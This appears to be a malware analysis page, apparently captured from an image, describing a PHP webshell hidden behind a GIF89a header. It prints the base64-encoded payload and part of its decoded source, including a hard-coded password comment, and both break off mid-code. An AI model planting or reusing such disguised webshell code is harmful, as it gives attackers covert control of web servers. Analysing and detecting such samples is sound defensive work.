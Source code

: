 # WebShell-GIF.Backdoor.GEN
Obfuscated WebShell/GIF.Backdoor.GEN | Yara Ruleset

This piece of Malware object's script was extracted from NX FireEye | MVX Engine 

GIF89a<title>GIF89a</title>
 <?php 
$dos="DQoNCi8vJHBhc3N3b3JkID0gImh1b3NoYW4iOy8vyejWw8PcwusNCi8vLS0tLS0tLS0tLS0tLS
0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS
0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTIwMTMtMDYtMTW4/NDCDQoNCj8+IDw/cGhwDQovLy0tLS
0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS
0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0yMDEzLTA2LTE1uPzQwg0KZXJyb3Jfcm
Vwb3J0aW5nKEVfRVJST1IpOw0KaGVhZGVyKCJjb250ZW50LVR5cGU6IHRleHQvaHRtbDsgY2hhcnNldD
1nYjIzMTIiKTsNCnNldF90aW1lX2xpbWl0KDApOw0KDQpmdW5jdGlvbiBSb290X0dQKCRhcnJheSkNCn
sNCgl3aGlsZShsaXN0KCRrZXksJHZhcikgPSBlYWNoKCRhcnJheSkpDQoJew0KCQlpZigoc3RydG91cH
Blcigka2V5KSAhPSAka2V5IHx8ICcnLmludHZhbCgka2V5KSA9PSAiJGtleSIpICYmICRrZXkgIT0gJ2
FyZ2MnICYmICRrZXkgIT0gJ2FyZ3YnKQ0KCQl7DQoJCQlpZihpc19zdHJpbmcoJHZhcikpICRhcnJheV
ska2V5XSA9IHN0cmlwc2xhc2hlcygkdmFyKTsNCgkJCWlmKGlzX2FycmF5KCR2YXIpKSAkYXJyYXlbJG
tleV0gPSBSb290X0dQKCR2YXIpOyAgDQoJCX0NCgl9DQoJcmV0dXJuICRhcnJheTsNCn0NCg0KZnVuY3
Rpb24gUm9vdF9DU1MoKQ0Kew0KcHJpbnQ8PDxFTkQNCjxzdHlsZSB0eXBlPSJ0ZXh0L2NzcyI+DQoJKn
twYWRkaW5nOjA7IG1hcmdpbjowO30NCglib2R5e2JhY2tncm91bmQ6dGhyZWVkZmFjZTtmb250LWZhbW
lseToiVmVyZGFuYSIsICJUYWhvbWEiLCAiy87M5SIsc2Fucy1zZXJpZjsgZm9udC1zaXplOjEzcHg7bW
FyZ2luLXRvcDozcHg7bWFyZ2luLWJvdHRvbTozcHg7dGFibGUtbGF5b3V0OmZpeGVkO3dvcmQtYnJlYW
s6YnJlYWstYWxsO30NCglhe2NvbG9yOiMwMDAwMDA7dGV4dC1kZWNvcmF0aW9uOm5vbmU7fQ0KCWE6aG
92ZXJ7YmFja2dyb3VuZDojQ



#After Decoding the $dos content, it seems like this;


//$password = "huoshan";//
//----------------------------------------------------------------------------------------------------2013-06-15

?> <?php
//----------------------------------------------------------------------------------------------------2013-06-15
error_reporting(E_ERROR);
header("content-Type: text/html; charset=gb2312");
set_time_limit(0);

function Root_GP($array)
{
	while(list($key,$var) = each($array))
	{
		if((strtoupper($key) != $key || ''.intval($key) == "$key") && $key != 'argc' && $key != 'argv')
		{
			if(is_string($var)) $array[$key] = stripslashes($var);
			if(is_array($var)) $array[$key] = Root_GP($var);  
		}
	}
	return $array;
}

function Root_CSS()
{
print<<<END
<style type="text/css">
	*{padding:0; margin:0;}
	body{background:threedface;font-family:"Verdana", "Tahoma", "",sans-serif; font-size:13px;margin-top:3px;margin-bottom:3px;table-layout:fixed;word-break:break-all;}
	a{color:#000000;text-decoration:none;}
	a:hover{background:#

